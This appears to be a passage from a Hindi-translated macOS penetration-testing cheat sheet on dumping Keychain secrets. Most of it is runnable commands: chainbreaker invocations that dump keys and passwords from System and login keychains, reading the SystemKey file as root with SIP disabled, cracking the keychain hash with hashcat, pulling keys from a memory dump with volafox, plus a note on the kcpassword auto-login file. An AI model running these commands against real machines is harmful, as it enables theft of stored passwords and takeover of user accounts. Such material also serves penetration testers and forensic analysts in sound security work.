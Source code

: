 #### **Dump keychain keys**
```bash
#Dump all keys of the keychain (without the passwords)
python2.7 chainbreaker.py --dump-all /Library/Keychains/System.keychain
```
#### **सिस्टमकी के साथ कीचेन कुंजी (पासवर्ड के साथ) डंप करें**
```bash
# First, get the keychain decryption key
# To get this decryption key you need to be root and SIP must be disabled
hexdump -s 8 -n 24 -e '1/1 "%.2x"' /var/db/SystemKey && echo
## Use the previous key to decrypt the passwords
python2.7 chainbreaker.py --dump-all --key 0293847570022761234562947e0bcd5bc04d196ad2345697 /Library/Keychains/System.keychain
```
#### **कीचेन कुंजी (पासवर्ड के साथ) डंप करना हैश को क्रैक करना**
```bash
# Get the keychain hash
python2.7 chainbreaker.py --dump-keychain-password-hash /Library/Keychains/System.keychain
# Crack it with hashcat
hashcat.exe -m 23100 --keep-guessing hashes.txt dictionary.txt
# Use the key to decrypt the passwords
python2.7 chainbreaker.py --dump-all --key 0293847570022761234562947e0bcd5bc04d196ad2345697 /Library/Keychains/System.keychain
```
#### **कीचेन कुंजियों (पासवर्ड के साथ) को मेमोरी डंप के साथ डंप करें**

[इन चरणों का पालन करें](../#dumping-memory-with-osxpmem) **मेमोरी डंप** करने के लिए
```bash
#Use volafox (https://github.com/n0fate/volafox) to extract possible keychain passwords
# Unformtunately volafox isn't working with the latest versions of MacOS
python vol.py -i ~/Desktop/show/macosxml.mem -o keychaindump

#Try to extract the passwords using the extracted keychain passwords
python2.7 chainbreaker.py --dump-all --key 0293847570022761234562947e0bcd5bc04d196ad2345697 /Library/Keychains/System.keychain
```
#### **उपयोगकर्ता के पासवर्ड का उपयोग करके कीचेन कुंजी (पासवर्ड के साथ) डंप करें**

यदि आप उपयोगकर्ता का पासवर्ड जानते हैं, तो आप इसका उपयोग **उपयोगकर्ता के स्वामित्व वाले कीचेन को डंप और डिक्रिप्ट करने के लिए** कर सकते हैं।
```bash
#Prompt to ask for the password
python2.7 chainbreaker.py --dump-all --password-prompt /Users/<username>/Library/Keychains/login.keychain-db
```
### kcpassword

**kcpassword** फ़ाइल एक फ़ाइल है जो **उपयोगकर्ता का लॉगिन पासवर्ड** रखती है, लेकिन केवल तभी जब सिस्टम के मालिक ने **स्वचालित लॉगिन** सक्षम किया हो। इसलिए, उपयोगकर्ता बिना पासवर्ड पूछे स्वचालित रूप से लॉगिन हो जाएगा (जो बहुत सुरक्षित नहीं है)।
